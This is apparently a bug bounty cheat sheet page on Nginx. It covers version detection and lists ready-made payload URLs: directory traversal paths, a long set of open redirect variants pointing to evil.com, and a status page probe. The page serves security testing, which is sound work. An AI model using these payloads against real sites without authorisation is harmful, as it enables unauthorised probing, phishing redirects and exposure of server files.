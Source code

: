 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Nginx.md#introduction)

What would you do if you came across a website that uses Nginx?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Nginx.md#how-to-detect)

Usually in the HTTP response there is a header like this `Server: nginx`

1. Find the related CVE by checking nginx version

- How to find the nginx version

By checking the response header or using 404 page, sometimes the version is printed there. If you found outdated nginx version, find the CVEs at [CVE Details](https://www.cvedetails.com/vulnerability-list/vendor_id-315/product_id-101578/F5-Nginx.html)

2. Directory traversal

```
https://example.com/folder1../folder1/folder2/static/main.css
https://example.com/folder1../%s/folder2/static/main.css
https://example.com/folder1/folder2../folder2/static/main.css
https://example.com/folder1/folder2../%s/static/main.css
https://example.com/folder1/folder2/static../static/main.css
https://example.com/folder1/folder2/static../%s/main.css
```

3. Open redirect This is because of misconfiguration

```
https://example.com/%5cevil.com
https://example.com////\;@evil.com
https://example.com////evil.com
https://example.com///evil.com
https://example.com///evil.com/%2f%2e%2e
https://example.com///evil.com@//
https://example.com///{{RootURL}}evil.com/%2f%2e%2e
https://example.com//;@evil.com
https://example.com//\/evil.com/
https://example.com//\@evil.com
https://example.com//\evil.com
https://example.com//\tevil.com/
https://example.com//evil.com/%2F..
https://example.com//evil.com//
https://example.com//evil.com@//
https://example.com//evil.com\tevil.com/
https://example.com//https://evil.com@//
https://example.com/<>//evil.com
https://example.com/\/\/evil.com/
https://example.com/\/evil.com
https://example.com/\evil.com
https://example.com/evil.com
https://example.com/evil.com/%2F..
https://example.com/evil.com/
https://example.com/evil.com/..;/css
https://example.com/https:evil.com
```

4. Nginx status page

```
https://example.com/nginx_status
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Nginx.md#references)

- [Detectify](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)

